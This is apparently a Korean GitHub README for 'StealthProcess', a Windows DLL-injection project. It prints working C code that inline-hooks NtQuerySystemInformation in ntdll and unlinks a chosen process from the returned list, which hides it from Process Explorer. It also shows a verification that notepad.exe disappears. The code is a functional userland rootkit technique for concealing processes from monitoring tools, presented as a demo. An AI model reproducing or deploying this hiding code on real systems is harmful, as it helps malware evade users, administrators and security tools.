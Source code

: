 # StealthProcess
## 세부사항
|||
|---|---|
|개발일자|2024-02-23 ~ 2024-02-27|
|시스템 OS| Windows 10|
|개발도구| Visual Studio 2022, winAPI, C|
|추가도구|Process Explorer|

## 내용
DLL Injection을 통해 StealthProcess.dll를 인젝션하여 특정 프로세스를 특정 프로세스에서 숨긴다.  
StealthProcess.dll(특정 프로세스를 숨기는 역활을 담당) -> Injection -> ProcessExploerer  

## 주요 코드
### Hooking 함수
```C
void Hooking(const char* dllName, const char* srcProc, const void* buffer, int bufferSize) {
	HMODULE dll = GetModuleHandleA(dllName);
	if (dll == NULL) ErrorMessage("dll");
	gNtdll = dll;

	void* proc = GetProcAddress(dll, srcProc);
	if (proc == NULL) ErrorMessage("proc");
	gProcAddr = proc;

	/*BYTE jmpCode[JMP_COMMAND_PADDING] = { 0xFF, 0x25, 0, };
	DWORD64 newProcAddr = 0;
	DWORD64 offsetAddr = 0;*/

	//int tmpSize = 0;
	DWORD oldProtect;

	//auto result = VirtualProtect(proc, sizeof(jmpCode) + sizeof(newProcAddr), PAGE_EXECUTE_READWRITE, &oldProtect);
	auto result = VirtualProtect(proc, bufferSize, PAGE_EXECUTE_READWRITE, &oldProtect);
	if (!result) ErrorMessage("VirtualProtect");

	if (gOriBuffer == nullptr) {
		gOriBuffer = new BYTE[bufferSize];
		memcpy_s(gOriBuffer, bufferSize, proc, bufferSize);
		gOriSize = bufferSize;
	};
	/*tmpSize = sizeof(jmpCode);
	result = memcpy_s(proc, tmpSize, jmpCode, tmpSize);
	if (result != 0) ErrorMessage("memcpy_s");

	offsetAddr = ((DWORD64)proc + tmpSize);
	newProcAddr = (DWORD64)dstProc;
	tmpSize = sizeof(newProcAddr);
	result = memcpy_s((void*)offsetAddr, tmpSize, &newProcAddr, tmpSize);*/
	result = memcpy_s(proc, bufferSize, buffer, bufferSize);

	result = VirtualProtect(proc, bufferSize, oldProtect, &oldProtect);
	if (!result) ErrorMessage("VirtualProtect");
};
```
전달된 매개변수로 원래 함수 위치를 찾아, 전달된 버퍼로 덮어 씌우는 함수이다.  
실제로 ntdll.dll 에서 NtQuerySystiemInformation 함수를 찾아서, 새로운 함수로 덮어씌운다.

### NewQuerySystemInformation 함수
```C
NTSTATUS NewQuerySystemInformation(_In_ SYSTEM_INFORMATION_CLASS sysInfoClass, _In_ _Out_ void* sysInfo, _In_ ULONG sysInfoLen, _Out_ ULONG* retLen) {

	//MessageBoxA(NULL, "Check Function Call", "NewQsi", NULL);
	typedef struct _SYSTEM_PROCESS_INFORMATION {
		ULONG NextEntryOffset;
		ULONG NumberOfThreads;
		BYTE Reserved1[48];
		PVOID Reserved2[3];
		HANDLE UniqueProcessID;
		PVOID Reserved3;
		ULONG HandleCount;
		BYTE Reserved4[4];
		PVOID Reserved5[11];
		SIZE_T PeekPagefileUsage;
		SIZE_T PrivatePageCount;
		LARGE_INTEGER Reserved6[6];
	}SystemProcessInforMation, * PSystemPrcoessInforMation;

	NTSTATUS status;
	FARPROC pFunc;
	PSystemPrcoessInforMation pCur = NULL, pPrev = NULL;
	char procName[MAX_PATH] = { 0, };
	int result;

	Hooking("ntdll.dll", "NtQuerySystemInformation", gOriBuffer, gOriSize);
	status = ((NewQsi)gProcAddr) (sysInfoClass, sysInfo, sysInfoLen, retLen);
	if (status != STATUS_SEVERITY_SUCCESS) goto __NEWQSI_END;

	if (sysInfoClass == SYSTEM_PROCESS_INFORMATION) {
		pCur = (PSystemPrcoessInforMation)sysInfo;

		while (TRUE) {
			if (pCur->Reserved2[1] != NULL) {
				result = _wcsicmp((PWSTR)(pCur->Reserved2[1]), oriProcName);
				if (result == 0) {
					if (pCur->NextEntryOffset == 0)
						pPrev->NextEntryOffset = 0;
					else
						pPrev->NextEntryOffset += pCur->NextEntryOffset;
				}
				else
					pPrev = pCur;
			};
			if (pCur->NextEntryOffset == 0)
				break;

			pCur = (PSystemPrcoessInforMation)((ULONG64)pCur + pCur->NextEntryOffset);
		};
	};

__NEWQSI_END:
	Hooking("ntdll.dll", "ZwQuerySystemInformation", gBuffer, gBufferSize);
	return status;
};
```

NewQuerySystemInformation 함수에서 눈여겨 볼 곳은 pPrev-NextEntryOffset += pCur->NetxEntryOffset; 이다.  
NtQuerySystemInformation 에서 ProcessInformation은 리스트 형식에 반환 값을 가지고 있고, 리스트의 구조에서 자신이 숨기고자한 프로세스(oriProcName변수)를 찾아서 리스트 연결을 인젝션을 당한 프로세스에서 내에서 빼는 것이다.

## 검증

### ProcessExploerer 통해 notepad.exe 확인
<image src="./검증1.png">

### DLLInjector 로 StealthProcess.dll 인젝션
<image src="./검증2.png">

### ProcessExploerer 통해 notepad.exe가 사라진것을 확인
![alt text](image.png)